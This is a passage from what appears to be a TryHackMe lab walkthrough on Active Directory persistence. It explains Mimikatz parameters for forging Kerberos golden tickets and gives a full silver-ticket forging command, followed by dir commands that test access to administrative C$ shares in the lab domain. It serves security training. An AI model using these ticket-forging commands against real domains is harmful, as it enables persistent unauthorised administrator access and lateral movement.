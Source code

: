 - **/admin** - The username we want to impersonate. This does not have to be a valid user.  
- **/domain** - The FQDN of the domain we want to generate the ticket for.  
- **/id** -The user RID. By default, Mimikatz uses RID 500, which is the default Administrator account RID.  
- **/sid** -The SID of the domain we want to generate the ticket for.
- **/krbtgt** -The NTLM hash of the KRBTGT account.  
- **/endin** - The ticket lifetime. By default, Mimikatz generates a ticket that is valid for 10 
- **/renewmax** -The maximum ticket lifetime with renewal. By default, Mimikatz generates a ticket that is valid for 10 years. The default Kerberos policy of AD is 7 days (10080 minutes)  
- **/ptt** - This flag tells Mimikatz to inject the ticket directly into the session, meaning it is ready to be used.

We can verify that the golden ticket is working by running the dir command against the domain controller:
```markup
za\aaron.jones@THMWRK1 C:\Users\Administrator.ZA>dir \\thmdc.za.tryhackme.loc\c$\
```

Even if the golden ticket has an incredibly long time, the blue team can still defend against this by simply rotating the KRBTGT password twice. If we really want to dig in our roots, we want to generate silver tickets, which are less likely to be discovered and significantly harder to defend against since the passwords of every machine account must be rotated. 

## Silver Ticket
```markup
mimikatz # kerberos::golden /admin:StillNotALegitAccount /domain:za.tryhackme.loc /id:500 /sid:{Domain SID} /target:{Hostname of server being targeted} /rc4:{NTLM Hash of machine account of target} /service:cifs /ptt
```

- **/admin** - The username we want to impersonate. This does not have to be a valid user.  
- **/domain** - The FQDN of the domain we want to generate the ticket for.  
- **/id** -The user RID. By default, Mimikatz uses RID 500, which is the default Administrator account RID.  
- **/sid** -The SID of the domain we want to generate the ticket for.
- **/target** - The hostname of our target server. Let's do THMSERVER1.za.tryhackme.loc, but it can be any domain-joined host.  
- **/rc4** - The NTLM hash of the machine account of our target. Look through your DC Sync results for the NTLM hash of THMSERVER1$. The $ indicates that it is a machine account.  
- **/service** - The service we are requesting in our TGS. CIFS is a safe bet, since it allows file access.  
- **/ptt** - This flag tells Mimikatz to inject the ticket directly into the session, meaning it is ready to be used

We can verify that the silver ticket is working by running the dir command against THMSERVER1:
```markup
za\aaron.jones@THMWRK1 C:\Users\Administrator.ZA>dir \\thmserver1.za.tryhackme.loc\c$\
```